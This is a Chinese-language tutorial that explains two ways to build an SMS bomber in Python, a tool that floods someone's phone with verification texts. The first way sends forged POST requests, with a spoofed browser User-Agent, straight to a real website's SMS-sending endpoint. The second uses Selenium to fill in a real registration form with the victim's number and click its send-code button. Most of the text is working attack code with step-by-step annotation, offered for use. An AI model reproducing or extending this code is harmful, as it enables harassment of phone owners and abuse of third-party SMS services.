



# 短信轰炸程序常见的两种技术解析

该教程以Python为例介绍了两种常用的短信轰炸方式

## 方法一：调用网站的短信接口

该方法的本质是调用了网站发送短信的接口，模拟了一个HTTP请求（即模拟一个post或者一个get请求）

### 示范代码如下

~~~python
import requests

headers = {
    "User-Agnet":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57",
}
def iask(phone_number):
    data = {
        "mobile":phone_number,
        "nationCode":"86",
        "businessCode":4,
        "terminal":"pc",
        "businessSys":"iask",
    }
    response = requests.post('https://iask.sina.com.cn/cas-api/sendSms',data = data,headers = headers)
    print("iask网站",response.text)
~~~

### 1、准备requests包

pip命令下载所需的requests包

~~~python
pip install requests
~~~

### 2、代码解析

#### （1）第一段代码解析

~~~python
import requests #导入所需要的包

 #构造一个报文头假装自己是一个浏览器
 #User-Agnet是用户代理的意思
 #Python3.5的User-Agent是Python-urllib/3.5，我们要修改这个变量，以免服务器发现我们是一个Python程序
 #具体数据我们从浏览器抄写一手
headers = {
    "User-Agnet":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36 Edg/89.0.774.57",
}

~~~

#### （2）第二段代码解析

**找接口（以爱问知识网为例）** 
网址如下：<https://iask.sina.com.cn>

**我们模拟注册过程** 
 

**寻找所需的数据** 
 
 
 
**根据信息，构造自己的HTTP报文，模拟注册**

~~~python
def iask(phone_number):
    #这是我们刚才找到的表单数据
    data = {
        "mobile":phone_number,
        "nationCode":"86",
        "businessCode":4,
        "terminal":"pc",
        "businessSys":"iask",
    }
    #刚才我们发现请求时post请求，所以我们试用requests.post方法
    #把我们刚才造好的headers和data放入请求中
    response = requests.post('https://iask.sina.com.cn/cas-api/sendSms',data = data,headers = headers)

    #得到一个返回值，可以查看是否成功
    print("iask网站",response.text)
~~~

## 方法二：模拟点击

**为什么我们要通过模拟点击的方法实现一个短信轰炸？**
因为很多网站发送的报文信息都是加密的，我们不知道他们的加密方式，所以我们没法模拟注册

### 示范代码如下

~~~python
from selenium import webdriver
def wangke(phone_number):
    browser = webdriver.Edge('C:\Program Files (x86)\Microsoft Visual Studio\Shared\Python37_64\msedgedriver.exe')
    url = 'http://www.wangkezhijia.net/register'
    browser.get(url)
    input_phone_number=browser.find_element_by_xpath('//input[@name="mobile"]')
    input_phone_number.send_keys(phone_number)
    sent_msg=browser.find_element_by_xpath('//button[@class="hqyz"]')
    sent_msg.click()
    browser.close()
~~~

### 1、准备环境

#### （1）下载selenium包

~~~python
pip install selenium
~~~

#### （2）下载浏览器的驱动（以Eege为例）

* Edge驱动下载地址，根据自己的浏览器下载所需的驱动
驱动下载地址：<https://developer.microsoft.com/en-us/microsoft-edge/tools/webdriver/>

* 解压到一个合适的位置，我们一会通过绝对路径的方式引用该驱动

* 还有一种更便捷的方法，我们可以将驱动程序msedgedriver.exe改名为MicrosoftWebDriver.exe，并将此文件放在Python的安装路径下，就可以不用添加路径

### 2、代码解析

#### （1）第一段代码解析

~~~python
 #导入我们所需要的包selenium
from selenium import webdriver

def wangke(phone_number):
    #根据绝对路径导入驱动
    #也可以配置环境变量的方式，这里以绝对路径演示
    browser = webdriver.Edge('C:\Program Files (x86)\Microsoft Visual Studio\Shared\Python37_64\msedgedriver.exe')

    #网站的网址
    url = 'http://www.wangkezhijia.net/register'
    browser.get(url)

    #定位输入手机号的位置，并输入手机号
    input_phone_number=browser.find_element_by_xpath('//input[@name="mobile"]')
    input_phone_number.send_keys(phone_number)

    #定位发送验证码按钮，点击按钮
    sent_msg=browser.find_element_by_xpath('//button[@class="hqyz"]')
    sent_msg.click()

    #关闭浏览器
    browser.close()
~~~

#### (2)定位方法解析（需要基本的HTML基础知识）

* 定位按钮 
 

* 定位手机号输入框 
 

* 定位发送验证码按钮 

